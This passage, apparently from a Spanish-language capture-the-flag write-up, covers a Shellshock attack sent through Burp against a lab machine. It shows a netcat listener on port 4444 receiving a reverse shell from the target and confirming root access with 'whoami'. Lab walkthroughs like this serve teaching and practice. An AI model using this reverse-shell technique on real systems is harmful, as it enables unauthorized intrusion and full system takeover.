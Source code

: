 <figure><img src="../../../../.gitbook/assets/shellshockBurp.PNG" alt=""><figcaption></figcaption></figure>

* Recibimos la **reverse shell** y estaríamos dentro como **root**

```shell
> nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.7] 37081
bash: no job control in this shell
[root@beep webmin]# whoami
root
```
